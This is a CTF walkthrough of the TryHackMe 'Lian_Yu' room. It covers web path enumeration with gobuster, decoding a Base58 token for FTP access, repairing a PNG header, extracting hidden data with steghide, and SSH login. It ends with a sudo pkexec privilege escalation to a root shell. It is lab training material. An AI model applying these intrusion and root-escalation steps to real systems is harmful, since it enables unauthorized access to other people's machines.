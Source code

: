 # CTF-Write-up

## Try Hack Me - Lian_Yu

URL: https://tryhackme.com/room/lianyu

Created by _https://tryhackme.com/p/Deamon_

![logo](https://user-images.githubusercontent.com/20625004/111899596-51ca1f80-8a36-11eb-94ff-fd726fab3227.jpeg)

You should deploy the machine first.

Run nmap against the target machine.

```nmap -sC -A <target IP>```

Port 80 web access. 

![port80](https://user-images.githubusercontent.com/20625004/111899688-d452df00-8a36-11eb-86f7-69bcf2762d3b.PNG)

Then we use ```gobuster``` to seach for paths in the web application.

```gobuster dir <target IP> -w /path/to/wordlist```



```===============================================================```
```/.htaccess            (Status: 403) [Size: 199]```
```/.htpasswd            (Status: 403) [Size: 199]```
```/island               (Status: 301) [Size: 235]```
```/server-status        (Status: 403) [Size: 199]```                             

Accessing the web app with the new path 

![code](https://user-images.githubusercontent.com/20625004/111899829-87233d00-8a37-11eb-8543-f85bcc1904ad.PNG)

Seems we have a code.

Again use ```gobuster``` with the new path.

After a lot enumeration we found a new path 

```===============================================================```
```/2100                 (Status: 301) [Size: 240] ```

![2100](https://user-images.githubusercontent.com/20625004/111900051-f188ad00-8a38-11eb-8ffa-74264719ad46.PNG)

View source of the page provide us with an extension.

![source_2100](https://user-images.githubusercontent.com/20625004/111900103-2d237700-8a39-11eb-8358-a3de1ea9db8b.PNG)

Again fire ```gobuster``` to search for the file extension with flag ```-x```.

```gobuster dir -u "<Target IP>/island/2100/" -w /path/to/wordlsit -x <name extension>```

ok we found it ```/green_arrow.ticket   (Status: 200) [Size: 71]```

Access the new path on the browser.

![file_](https://user-images.githubusercontent.com/20625004/111900357-d880fb80-8a3a-11eb-9c89-3f8722a96730.PNG)

We found a token and we should decrypt it. It is a Base58 and decode it provide us with a pass. And we have the FTP password.

By using as username the code we found earlier "third pic" and the decoded pass we can access the FTP service.

```220 (vsFTPd 3.0.2)```
```Name (10.10.70.136): <code_word>```
```331 Please specify the password.```
```Password:```
```230 Login successful.```
```Remote system type is UNIX.```
```Using binary mode to transfer files.```
```ftp> ls```
```200 PORT command successful. Consider using PASV.```
```150 Here comes the directory listing.```
```-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png```
```-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png```
```-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg```
```226 Directory send OK.```
```ftp> ```

download the pics from the FTP service ```get xxxxx.xxx```

```Leave me alone``` pic has an error, as we see with the help of ```exiftool``` .

```ExifTool Version Number         : 12.16```
```File Name                       : Leave_me_alone.png```
```Directory                       : .```
```File Size                       : 500 KiB```
```File Modification Date/Time     : 2021:03:21 05:55:40-04:00```
```File Access Date/Time           : 2021:03:21 05:59:33-04:00```
```File Inode Change Date/Time     : 2021:03:21 05:59:26-04:00```
```File Permissions                : rw-r--r--```
```Error                           : File format error```

This means that the image’s header is corrupted, google Hex table of PNG image to check the values and modify the image with Hexeditor tool.

The file’s magic number is incorrect.

I opened the png with hexeditor and changed the first 16 digits with magic number for .png file : 89 50 4E 47 0D 0A 1A 0A

![hexeditor](https://user-images.githubusercontent.com/20625004/111904529-1d635d00-8a50-11eb-81c7-eab43e90054a.PNG)

```exiftool``` again the image 

```ExifTool Version Number         : 12.16```
```File Name                       : Leave_me_alone.png```
```Directory                       : .```
```File Size                       : 500 KiB```
```File Modification Date/Time     : 2021:03:21 08:14:06-04:00```
```File Access Date/Time           : 2021:03:21 08:14:06-04:00```
```File Inode Change Date/Time     : 2021:03:21 08:14:06-04:00```
```File Permissions                : rw-r--r--```
```File Type                       : PNG```
```File Type Extension             : png```
```MIME Type                       : image/png```
```Image Width                     : 845```
```Image Height                    : 475```
```Bit Depth                       : 8```
```Color Type                      : RGB with Alpha```
```Compression                     : Deflate/Inflate```
```Filter                          : Adaptive```
```Interlace                       : Noninterlaced```
```Image Size                      : 845x475```
```Megapixels                      : 0.401```

Finally the pic with the password.

![passwd](https://user-images.githubusercontent.com/20625004/111904665-b4301980-8a50-11eb-8235-20f1acc8fb66.PNG)

Nothing the password we found in not valid for SSH, lets check the other two pictures.

Lets try steghide for the other two pics.

```steghide extract -sf aa.jpg```

![zip](https://user-images.githubusercontent.com/20625004/111904878-a8912280-8a51-11eb-9afd-c6feee5fa8b4.PNG)

We used the one pass found on the First picture and saved it to a zip file, that contains two files.
Checked passwd.txt and here’s a Note, the other file ```shado``` has a string.

After a lot of searching to identify what was missing i logged in again to the the FTP service.
There i observed that there was also another user.

![user](https://user-images.githubusercontent.com/20625004/111905104-bbf0bd80-8a52-11eb-8691-09d45ab71c9d.PNG)

Then use SSH with the new name ```ssh slade@<target IP>``` and use the passwd that we found on the zip file, and you have access to the SSH service.

![ssh](https://user-images.githubusercontent.com/20625004/111905208-2570cc00-8a53-11eb-81a2-2cc80efce123.PNG)

In the ```/home/slade``` folder is the user.txt flag.

check current user has sudo permissions.
```sudo -l```
``` *User may run the following commands on LianYu: (root) PASSWD: /usr/bin/pkexec```
  
Searching for pkexec file on gtfobins for privilege escalation we found pkexec /bin/bash command.
When we run this command ```sudo /usr/bin/pkexec /bin/bash``` , we have root shell.

![root](https://user-images.githubusercontent.com/20625004/111905574-0410df80-8a55-11eb-83f9-37470276adb6.PNG)

On path ```/root``` you can find the second flag.

Congtarz finished...
